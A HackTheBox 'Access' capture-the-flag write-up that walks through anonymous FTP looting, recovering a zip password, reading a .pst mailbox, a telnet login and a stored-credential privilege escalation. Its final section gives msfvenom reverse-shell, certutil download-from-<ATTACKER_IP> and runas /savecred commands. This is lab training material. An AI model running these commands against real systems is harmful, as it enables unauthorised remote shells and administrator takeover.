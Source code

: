 ## HackTheBox - Access

It starts with the usual nmap scan as.

`nmap -sS -T4 -sV -sC`

![Screenshot0](./screenshots/0.png)

We see an FTP server that allows anonymous login, a telnet server and a web server.

An open FTP server sounds very inviting, of course.

I looked at that one first.

![Screenshot1](./screenshots/1.png)

We see two folders `backups` and `Engineer`.

Backups are always interesting!

![Screenshot2](./screenshots/2.png)

I came across a `backup.mdb` file which I downloaded.

Furthermore there was a file named `Access Control.zip` in the `Engineer` folder which I also downloaded.
I could not see the file yet, so I first looked at the `backup.md` file.

I somehow had problems to view the file with mdbtools, so I analyzed the content of the file with the output of the `strings` command and looked for possible passwords and usernames.

After some try and error I found the right password.

![Screenshot3](./screenshots/3.png)

I extracted the file `7z x Access\ Control.zip` and a new file named `Access Control.pst` appeared.

I looked up the file type and what tool to use to view this file on linux and found `pst-utils` / `readpst`.

Instalation: `sudo apt install pst-utils`

Usage: `readpst -M -b -e -o ./output/ Access\ Control.pst`

And again a new file named `2.eml` appeared.
I looked at it and found some juicy information.

![Screenshot4](./screenshots/4.png)

I took the open telnet server and logged in and got a shell access.

![Screenshot5](./screenshots/5.png)

At the desktop I got the user flag.

![Screenshot6](./screenshots/6.png)

# PrivEsc
I did some enumeration on the Windows system and rattled off my cheat sheet.
At the command `cmdkey /list` I saw that we have here <ins>Stored Credentials</ins>.

![Screenshot7](./screenshots/7.png)

I established a root shell in the following steps:

1. create reverse-exe with msfvenom: `msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=1234 -f exe > rev.exe`
2. start python http.webserver: `python3 -m http.server`
3. download the reverse exe with `certutil.exe`: `certutil.exe -urlcache -split -f http://<ATTACKER_IP>:8000/rev.exe rev.exe`
4. use metasploit to set the appropriate reverse listener
5. run the privelege escalation with `runas.exe` and enjoy the new reverse shell as administrator: `runas.exe /savecred /user:administrator rev.exe`.

And there is our root flag:

![Screenshot8](./screenshots/8.png)
